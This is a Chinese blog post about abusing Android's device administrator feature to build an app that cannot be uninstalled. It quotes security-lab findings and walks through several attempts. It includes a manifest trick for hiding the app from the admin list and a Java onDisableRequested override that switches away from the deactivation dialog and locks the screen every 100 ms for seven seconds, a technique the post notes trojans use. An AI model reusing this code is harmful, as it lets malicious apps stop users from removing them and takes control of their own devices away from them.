#编写一个无法卸载的App – 设备管理器漏洞

原文出处： [BQ Zhang（@2BAB）](http://2bab.me/2015/02/09/app-cannot-be-uninstalled/)

前两天某朋友发现手机有个app无法卸载，后知其因设备管理器激活导致，遂去尝试取消，但却在取消那刻卡机。反复折腾之后，只能重刷。后来他发了一篇关于设备管理器bug的文章给我，便有了如下一番折腾。

##尝鲜

文章[《Android 学习 设备管理器勾选后不能再取消了》](http://androidmaster.iteye.com/blog/2035381)（作者：带个回家）大致意思是：

>继承 DeviceAdminReceiver 重写 onDisableRequested(Context context, Intent intent) 即可达到目的。
```java
@Override
public CharSequence onDisableRequested(Context context, Intent intent) {
    // 这里处理 不可编辑设备。
    Intent intent2 = new Intent(context, NoticeSetting.class);
    intent2.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);
    context.startActivity(intent2);
    context.stopService(intent);// 是否可以停止
    return ""; // "这是一个可选的消息，警告有关禁止用户的请求";
    }
```

在此之前，我并没有接触过设备管理器的功能，参考了 API Guides 的 [Device Administration ](http://developer.android.com/guide/topics/admin/device-admin.html)，以及 [DeviceAdminReceiver](http://developer.android.com/reference/android/app/admin/DeviceAdminReceiver.html) 的 API 后，试着写了一个跟上述文章一样的 app，4.4 & 5.0均测试失败，可以正常取消激活。

##再战

搜索，找到[《Android设备管理器漏洞》](http://blog.csdn.net/androidsecurity/article/details/9124747)（作者：Jack_Jia）另一篇讲解此问题的文章。文章提到：

>如果想在设备管理器列表中”隐身“，只要不注册 `android.app.action.DEVICE_ADMIN_ENABLED` 广播就行。
也就是不给 intent-filter 标签设置该 action。

```xml
<receiver
    android:name=".MyDeviceReceiver"
    android:description="@string/receiver_description"
    android:label="@string/app_name"
    android:permission="android.permission.BIND_DEVICE_ADMIN">
    <meta-data
        android:name="android.app.device_admin"
        android:resource="@xml/device_manager_policies" />
    <intent-filter>
 
    </intent-filter>
</receiver>
```

4.4 & 5.0测试失败，设备管理器无法激活（代码激活不会弹出，设备管理器又找不到）。

##三战

继续搜索，发现百度安全实验室一篇文章[《Android设备管理器漏洞2》](http://blog.csdn.net/androidsecurity/article/details/39962571)。文章提到：

> 已激活设备管理器权限的手机木马利用该漏洞，可以在设置程序的设备管理器列表中隐藏，这样用户就无法通过正常途径取消该手机木马的设备管理器权限，从而达到无法卸载的目的。Android4.2版本以上系统已经修复该漏洞。    
…  
通过调用stopAppSwitch()方法，系统保证在进入取消设备管理器界面后，5秒内不会进行Activity的切换。   
…   
onDisableRequested函数满足以下条件即可：    
1、返回内容不能为空，这样才可以使设备管理器弹出取消激活设备管理器警示信息 Dialog。  
2、通过Activity切换的方式使设备管理器弹出的警示信息Dialog消失。使用户无法操作Dialog。
如果做到以上两点，程序即可成功阻止用户取消激活设备管理器操作。

故，只要在 onDisableRequested 方法中，让用户在取消激活时5s内无法操作界面，然后采取 Activity 切换的方法即可绕开取消激活的步骤。这里为了测试直观并且试一试设备管理器的 api，采用了百度提供的连续锁屏法。测试环境为5.0。 
``` java
public CharSequence onDisableRequested(Context context, Intent intent) {                                            
 
    //跳离当前询问是否取消激活的 dialog                                                                                          
    Intent outOfDialog = context.getPackageManager().getLaunchIntentForPackage("com.android.settings");             
    outOfDialog.setFlags(Intent.FLAG_ACTIVITY_NEW_TASK);                                                            
    context.startActivity(outOfDialog);                                                                             
 
    //调用设备管理器本身的功能，每 100ms 锁屏一次，用户即便解锁也会立即被锁，直至 7s 后                                                                
    final DevicePolicyManager dpm = (DevicePolicyManager) context.getSystemService(Context.DEVICE_POLICY_SERVICE);  
    dpm.lockNow();                                                                                                  
    new Thread(new Runnable() {                                                                                     
        @Override                                                                                                   
        public void run() {                                                                                         
            int i = 0;                                                                                              
            while (i < 70) {                                                                                        
                dpm.lockNow();                                                                                      
                try {                                                                                               
                    Thread.sleep(100);                                                                              
                    i++;                                                                                            
                } catch (InterruptedException e) {                                                                  
                    e.printStackTrace();                                                                            
                }                                                                                                   
            }                                                                                                       
        }                                                                                                           
    }).start();                                                                                                     
 
    return "";                                                                                                      
}
```
安装后打开直接跳转激活界面：